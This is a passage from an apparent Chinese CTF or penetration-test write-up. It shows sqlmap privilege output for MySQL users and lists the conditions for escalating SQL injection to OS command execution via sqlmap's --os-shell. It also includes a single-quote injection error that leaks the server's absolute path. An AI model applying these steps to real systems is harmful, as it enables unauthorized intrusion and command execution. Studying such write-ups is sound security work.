         role: TRIGGER
        role: UPDATE
    [*] 'mysql.sys'@'localhost' [1]:
        role: USAGE
    [*] 'root'@'localhost' (administrator) [28]:
        role: ALTER
        role: ALTER ROUTINE
        role: CREATE
        role: CREATE ROUTINE
        role: CREATE TABLESPACE
        role: CREATE TEMPORARY TABLES
        role: CREATE USER
        role: CREATE VIEW
        role: DELETE
        role: DROP
        role: EVENT
        role: EXECUTE
        role: FILE
        role: INDEX
        role: INSERT
        role: LOCK TABLES
        role: PROCESS
        role: REFERENCES
        role: RELOAD
        role: REPLICATION CLIENT
        role: REPLICATION SLAVE
        role: SELECT
        role: SHOW DATABASES
        role: SHOW VIEW
        role: SHUTDOWN
        role: SUPER
        role: TRIGGER
        role: UPDATE
    ```




获得了admin账号,如果这个时候再能获得一个RCE就无敌了

想到看到过的使用sqlmap的`--os-shell`参数，可以直接执行系统命令，所以可以直接查看文件.
但是必须满足三个条件

- 当前sql注入用户必须为DBA权限（--is-dba为true）
- 需要知道网站的绝对路径
- My.ini文件中的这项配置secure_file_priv=””为空

!!! note "**获得物理地址**"
    单引号注入

    ```
    Fatal error: Uncaught Error: Call to a member function fetch_assoc() on boolean in /home/web/www.zjusec.com/migrate.php:80 Stack trace: #0 {main} thrown in /home/web/www.zjusec.com/migrate.php on line 80
    ```

